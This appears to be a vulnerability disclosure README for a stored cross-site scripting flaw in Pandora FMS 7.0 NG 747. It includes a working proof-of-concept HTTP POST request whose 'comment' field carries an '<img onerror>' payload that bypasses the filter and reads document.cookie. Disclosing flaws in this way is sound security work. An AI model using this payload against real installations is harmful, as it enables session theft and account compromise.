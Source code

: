 # Pandora-FMS-7.0-NG-747-Stored-XSS
A stored cross-site scripting (XSS) in [Pandora FMS 7.0 NG 747](https://pandorafms.org/features/free-download-monitoring-software/) can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page. In addition, the existing XSS filter can be bypassed with the "<img" tag.

Pandora FMS 7.0 NG747 and older versions are affected by this vulnerability.


# PoC
To exploit vulnerability, someone could use a POST request to '/pandora_console/ajax.php' by manipulating 'comment' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /pandora_console/ajax.php HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 119
DNT: 1
Connection: close
Cookie: PHPSESSID=a55pr5b4gff5ea1h0pms4csrk5

page=include/ajax/events&add_comment=1&event_id=7&comment=<img src=x onerror="alert(document.cookie)">&meta=0&history=0
```

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-01.png)

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-02.png)

